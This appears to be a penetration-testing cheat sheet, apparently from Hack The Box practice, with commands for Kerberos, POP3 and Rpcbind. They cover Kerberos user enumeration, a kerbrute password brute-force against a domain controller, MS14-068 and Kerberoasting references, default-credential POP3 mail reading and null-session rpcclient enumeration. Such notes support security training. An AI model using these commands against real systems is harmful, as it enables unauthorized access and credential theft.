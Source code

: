 ## Kerberos - 88

```
- MS14-068
- GetUserSPNs
GET USERS:

nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN.LOCAL'" IP
use auxiliary/gather/kerberos_enumusers

https://www.tarlogic.com/blog/como-funciona-kerberos/
https://www.tarlogic.com/blog/como-atacar-kerberos/

python kerbrute.py -dc-ip IP -users /root/htb/kb_users.txt -passwords /root/pass_common_plus.txt -threads 20 -domain DOMAIN -outputfile kb_extracted_passwords.txt

https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/
```

## Port 110 - Pop3

```
telnet 10.11.1.111
USER pelle@10.11.1.111
PASS admin

or:

USER pelle
PASS admin

# List all emails
list

# Retrieve email number 5, for example
retr 9
```

## Port 111 - Rpcbind

```
rpcinfo -p 10.11.1.111
rpcclient -U "" 10.11.1.111
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall
```

